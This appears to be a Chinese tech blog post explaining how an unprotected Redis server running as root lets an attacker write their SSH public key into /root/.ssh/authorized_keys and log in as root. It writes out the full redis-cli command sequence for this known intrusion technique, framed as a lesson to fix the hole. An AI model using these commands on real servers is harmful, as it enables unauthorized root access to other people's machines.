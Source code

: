 
---
layout: post
title: web实战开发--利用redis漏洞 Hacker对方机器的
categories:
- 今日头条
tags:
---
				前言:

服务器端的安全问题, 以前有所耳闻, 听得最多的就是DDOS攻击, 还有就是缓冲区溢出攻击.

但是对通过Redis服务的安全漏洞, 从而绕过验证, 登陆对方机器, 这算是第一次耳闻.

今天趁此机会, 来谈一下, hacker对方机器的原理是什么?

![](http://p3.pstatp.com/large/97000015f03064144c2)

linux的信任机制:

做个互联网运维的工程师, 需要维护众多的机器, 如果每个命令都需要输入的密码的话. 那会非常的崩溃, 于是乎, 安全的免密码登陆方案便如同雨后春笋, 层出不穷.

其中配置信任关系的方案, 成了很多工程师的首选.

那信任关系是什么东东?

linux登陆时通过ssh协议, 来实现的, 但其通过配置RSA(ssh-genkey, ssh-copy-id)密钥对, 来实现免密码登陆.

具体操作:

1. 机器A生成公钥(空密码)

![](http://p3.pstatp.com/large/96c0001597f49e13e9c)

cat id_rsa.pub | ssh root@<ip> -x "cat >> /root/.ssh/authorized_keys"

3. 用户可以从机器A自由登陆到机器B

ssh root@<ip>



redis基础和管理命令:

redis号称世上最的强大数据结构服务器, 但其数据是可以持久化到本地的.

其数据以database的概念来存储的, 从linux的角度来看, database的集合为一个数据主目录, 而具体的database则以一个数据文件存在.

数据库目录: config get dir.

DB文件: config get dbfilename.

![](http://p3.pstatp.com/large/7fd0009f18886979772)

在redis交互中, 执行如下命令:

flushdbset hello worldsave

则cat dump.rdb文件内容后, 如下所示.

![](http://p3.pstatp.com/large/970000151a61fd2ed1e)



redis漏洞:

redis服务, 其没有配置任何安全措施, 同时以root账号运行. 那么任何人都能使用该redis服务.

1. 没有设置密码访问

2. bind于0.0.0.0:6379, 暴露于

3. root账号运行该redis服务

![](http://p3.pstatp.com/large/97000015f920ba2cebb)

在这个前提下, 攻击开始了.

hacker使用redis-cli, 或者其他工具, 连上redis服务.

1. 修改db的目录和文件名, 覆盖信任文件

redis:6379> config set dir /root/.sshredis:6379> config set dbfilename "authorized_keys"

2. 设置key/value值, 把秘钥写入

(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > val.txtcat val.txt | redis-cli -h <ip> -x set

3. 保存持久化

redis:6379> save

这样, 就简单的把hacker的信任秘钥写入到目标机器的/root/.ssh/authorized_keys文件上了.

这样就等价于, 最上面的免秘钥登陆设置. hacker只要简单的一个ssh登陆, 既达到了它的目标, 实在是完美.



后记:

有安全问题不可怕, 就怕知道漏洞, 还不去解决并修复它, 抱着侥幸心理, 永远是不行的.

本系列, 将讲述作者在使用和维护redis过程中, 一些心得, 希望和大家一起分享, 一起成长.